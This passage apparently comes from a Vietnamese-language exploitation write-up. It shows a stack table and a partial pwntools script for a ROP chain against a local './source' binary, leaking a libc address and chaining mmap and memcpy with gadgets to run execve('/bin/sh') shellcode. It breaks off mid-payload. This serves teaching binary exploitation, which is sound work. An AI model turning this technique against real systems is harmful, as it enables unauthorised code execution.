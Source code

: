 sau khi thực hiện pushad:

stack address | value| explanation
---|---|---
0x1000|mmap()|gọi mmap()
0x1004|popad gadget|
0x1008|1st arg|
0x100c|2nd arg|
0x1010|3rd arg|
0x1014|4th arg|
0x1018|5th arg|
0x101c|aaaa|padding
0x1020|aaaa|padding
0x1024|memcpy()|
0x1028|memcpy()| esp:0x1028 
0x102c|new mem address|
0x1030|new mem address|
0x1034|shellcode address| trỏ về shell<br>trong stack
0x1038|shellcode length|

dông dài thế cũng khá là nhức đầu, nên bây giờ đến source py
```python
from pwn import *
  #context.log_level = 'debug'
 
#32bit OS
libc = ELF("/lib/i386-linux-gnu/libc-2.23.so")
#64bit OS
#libc = ELF("/lib32/libc-2.23.so")

shellcode = asm(shellcraft.i386.linux.execve('/bin/sh\x00',0,0)) 
binary = ELF('./source')
p = process(binary.path)
 
p.recvuntil('Printf() address : ')
stackAddr = p.recvuntil('\n')
stackAddr = int(stackAddr,16)
 
new_memory = 0x20000000
 
#Libc
libc_base = stackAddr - 0x49680
libc_mmap = libc_base + libc.symbols['mmap']
libc_memcpy = libc_base + libc.symbols['memcpy']
 
#ROP Gadget
#note: lưu ý rằng tất cả các offset này đều tìm = rp++
libc_popad = libc_base + 0x0016b902
libc_xchg_eax_edi = libc_base + 0x0006fd59
libc_pop_esi = libc_base + 0x00017828
libc_pop_ebp = libc_base + 0x000179a7
libc_pop_ebx = libc_base + 0x000189d7
libc_pushad = libc_base + 0x000060bc
 
log.info('Libc base : '+hex(libc_base))
log.info('mmap addr : '+hex(libc_mmap))
log.info('memcpy addr : '+hex(libc_memcpy))
 
payload = "A"*66
 
#mmap(0x20000000,0x1000,0x7,0x22,0xffffffff,0)
payload += p32(libc_mmap)
payload += p32(libc_popad)
payload += p32(new_memory)
payload += p32(0x1000)
```